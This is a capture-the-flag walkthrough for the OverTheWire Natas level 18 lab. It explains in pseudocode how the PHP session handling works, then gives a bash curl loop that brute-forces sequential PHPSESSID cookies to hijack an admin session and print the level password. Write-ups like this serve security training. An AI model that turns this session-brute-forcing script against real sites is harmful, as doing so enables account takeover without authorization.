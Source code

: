 ```text
            return false
        else
            check if admin exists in $_SESSION ifso
                set admin to zero.
        return true.

What does print_credentials do ?
    if the custom session variable admin exits and if its been set to one we will be granted a admin session
    anything else is a normal user session

What does createID do ?
    Generate a random interger between 1 and the maxid (which is 640)

what does session_id do ?
    session_id() is used to get or set the session id for the current session.
    If id is specified, it will replace the current session id. session_id() needs to be called before session_start() for that purpose.

What does session_start do ?
    session_start() creates a session or resumes the current one based on a session identifier passed via a GET or POST request, or passed via a cookie.


So how can we break this ?
    my_session_start checks if there is a valid PHPSESSID, it will then start the session with that id.
    If there is currently a PHPSESSID for a admin session, and we correctly guess this, we could get a admin session. This way we entirely skip the $_SESSION["admin"] = isValidAdminLogin() since this will only be checked/set if my_session_start returns false or if it exists.
    Since the maxid is been set to 640 this should be brute forceable.
```

Doing the breakiage.

```bash
MaxCookieID=640
CurrentID=0
while [ $CurrentID -ne $MaxCookieID ]
do
    CurrentID=$(( $CurrentID + 1 ))
    SessionCookie="PHPSESSID=$CurrentID"
    curl_output=$(curl -s $'http://natas18.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==' --cookie "$SessionCookie" --data 'username=admin&password=password')
    if echo $curl_output | grep -q "regular user"; then
        echo "[-] $CurrentID out of $MaxCookieID is not a admin session."
    else
        echo "[+] $CurrentID out of $MaxCookieID is a admin session."
        echo "[+] $(echo $curl_output | grep Password | cut -d "<" -f 1 )"
        break
    fi
done
```
